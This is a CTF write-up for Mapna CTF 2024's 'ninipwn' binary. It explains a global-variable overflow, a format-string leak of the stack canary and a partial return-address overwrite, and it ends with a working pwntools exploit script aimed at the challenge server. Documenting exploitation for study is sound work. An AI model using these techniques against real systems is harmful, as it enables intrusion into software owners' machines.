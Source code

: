 ```yaml
---
title: ninipwn
description: >-
  Overcoming stack canaries with printf
categories: [CTF Writeup]
tags: [pwn, Mapna CTF]
pin: false
media_subpath: '/assets/img/posts/ninipwn'
---
```


## Description
This challenge is from [Mapna CTF 2024](https://ctftime.org/event/2205).
> pwn ^ pwn ^ pwn ^ pwn ^ pwn ^ pwn
> <br>[Attachment](/assets/files/posts/ninipwn/ninipwn)
> ```
> nc 3.75.185.198 7000
> ```

## Writeup
To start this challenge, I first ran the `checksec` command on the provided binary file:

![decomp](checksec.png)

All protections were enabled, so I knew I would have to find a way around at least one of them to solve the challenge. Next, I loaded the binary into Ghidra. The `main` function simply prints out "XOR encryption service", then calls the `encryption_service` function. After looking through the code to get a sense of what it was doing, I cleaned up the code by renaming some variables so that it looked like this:

### `encryption_service`
![encryption_service](encryption_service_decomp.png)

### `encrypt`
![encrypt](encrypt_decomp.png)

Beyond this, there were a few other details of interest. The flag was not contained anywhere in the binary, meaning it would require gaining a shell on the remote system to instead find the flag on the filesystem. To further support this idea, there was a `win` function containing code to spawn a shell when called. My goal was to find a way to jump to this `win` function.

Here's what the program does: first, it asks the user to input the `text_length`, which must be between 0 and 256. Next, it asks for the `key` and prints the key back out to the user. Then, it asks for up to `text_length` bytes of `text` to store in a buffer on the stack. Finally, the program then takes the key provided and "encrypts" the buffer via the `encrypt` function. This XORs the text with the key by repeating the key every 8 bytes.

There are two critical places where the vulnerabilities lie. First, `key` and `text_length` are global variables, meaning they are not stored on the stack but rather in the `.bss` section of the binary. When the program accepts input to be used as the `key`, it accepts 10 bytes, which is 2 bytes greater than the allocated space for `key`. Since the item next to `key` is `text_length`, this causes a 2-byte overflow into `text_length`, allowing us to control the two upper-most, or least-significant bytes of `text_length`. Since the program asks for `key` after it asks for `text_length`, we can use this to bypass the check for `text_length` and write values of up to `0xffff` (decimal 65535), meaning we can perform a buffer overflow.

However, by itself, this vulnerability is not enough to gain a shell. While it does allow us to use a buffer overflow to overwrite the value of the saved `%rip`, it doesn't provide us with a way to overcome the stack canary. This is where the second vulnerability comes in. In line 21 of `encryption_service`, `printf` is called with user-controlled input as its only argument. The correct way to write this statement would have been `printf("%s", (char *)&key)`- notice the omission of the `"%s"`. This oversight allows us to perform what is known as a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). Without the `"%s"`, the C programming language treats the value of `key` as the format string. In normal operation, this will still produce the intended output, but as an attacker, we can pass in format specifiers like `"%p"` as the value of `key` to leak data from the stack. So what exactly would passing `"%p"` print? It does exactly what it normally does, which is print the second argument to `printf` as a pointer, or in other words, `%rdi` (the x86 register for the second argument). By extension, we can add more `%p`s to leak other "arguments", and at the 6th `%p`, start to leak from the top of the stack (since x86 assembly stores arguments beyond the 6th on the stack). The C notation for this would be `"%6$p"`. However, we don't just want the top value of the stack- we want the stack canary. To calculate the offset of the stack canary from the top of the stack as defined at the `printf`, I set a breakpoint in GDB after the `printf` statement and ran `info frame` to find where the canary was stored in the current frame. Then, I calculated the difference between `%rsp` and the location of the canary and divided it by 8 to get the number of "pointers" I needed to offset by. The result was 33, so my format string needed to be `"%39$p"` (33 + 6 to start at the top of the stack). Testing this in GDB confirmed that the program did indeed leak the correct value.

![canary](canary.png)

Now that I had the information I needed, all that remained was to craft the actual exploit. Since the goal was to gain a shell using the provided `win` function, I needed to overwrite the value of the stored `%rip` with the address of the `win` function. However, with PIE turned on, that address would be randomized each time the program was ran, which would require another leak to know in its entirety, except for the last 3 hex characters (12 bits). Instead, to avoid having to know the full address, I decided to perform a partial overwrite, which would utilize the existing stored address. The address of the `win` function and the address of `main` which `encryption_service` would normally return to, offset `0x00101433` and `0x001014f8` respectively, were close enough that they only differed by their last byte, even with PIE turned on. This meant I could perform an overwrite of only the least-significant/upper-most byte. Since the "overwrite" was actually an XOR function, this meant making the first byte of the key the value needed to XOR with `0xf8` to result in `0x33`, which is `0xcb`.

## Solve

```python
from pwn import *
import time


binary = "./ninipwn"
elf = context.binary = ELF(binary, checksec=False)

# break *(encryption_service+0x165)
gs = """
break *(encryption_service+0x11a)
continue
"""

# `python3 solve.py REMOTE`
if args.REMOTE:
    p = remote("3.75.185.198", 7000)

# `python3 solve.py GDB`
elif args.GDB:
    context.terminal = ["tmux", "splitw", "-h", "-l", "120"]
    p = gdb.debug(binary, gdbscript=gs)

# `python3 solve.py`
else:
    p = elf.process()

# overwrite buffer + canary + saved rbp + least-significant byte of saved rip
overwrite = 264 + 8 + 8 + 1
key = (b'\xcb' + b'%39$p').ljust(8, b'\x00')

# can overflow KEY by 2 bytes to control this value up to 0xffff
p.sendlineafter(b'Text length: ', b'255')

p.sendafter(b'Key: ', key + overwrite.to_bytes(2, 'little'))

p.recvuntil(b'Key selected: \xcb')
canary = int(p.recvline(keepends=False), 16)
# print("RECEIVED CANARY:", hex(canary))

p.sendafter(b"Text: ", b'\x00'*(264) + p64(canary ^ u64(key)))
p.recvuntil(b'Encrypted output: ')
p.recv()

p.interactive()
```

![solve](solve.png)
